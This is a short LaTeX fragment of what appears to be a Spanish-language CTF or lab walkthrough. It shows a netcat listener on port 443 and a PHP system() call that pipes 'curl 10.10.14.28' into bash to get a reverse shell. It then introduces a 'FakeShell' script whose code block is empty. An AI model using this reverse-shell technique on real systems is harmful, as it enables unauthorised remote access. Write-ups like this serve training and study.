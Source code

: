 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DataTypeTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{#1}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OtherTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\begin{document}
Aqui vemos el codigo fuente del index.html creado. La idea aqui seria interpretar el codigo.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Escuchamos por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Ejecutamos la reverse shell

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php} \FunctionTok{system}\OtherTok{(}\StringTok{"curl 10.10.14.28 | bash"}\OtherTok{);} \KeywordTok{?>}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

La connection se entabla pero el servidor nos expulsa directamente.

\hypertarget{creamos-una-fakeshell}{%
\subsection*{Creamos una FakeShell}\label{creamos-una-fakeshell}}

En el directorio exploits creamos un fichero \texttt{fakeShell.sh} que contiene

\begin{Shaded}
\end{Shaded}
\end{document}
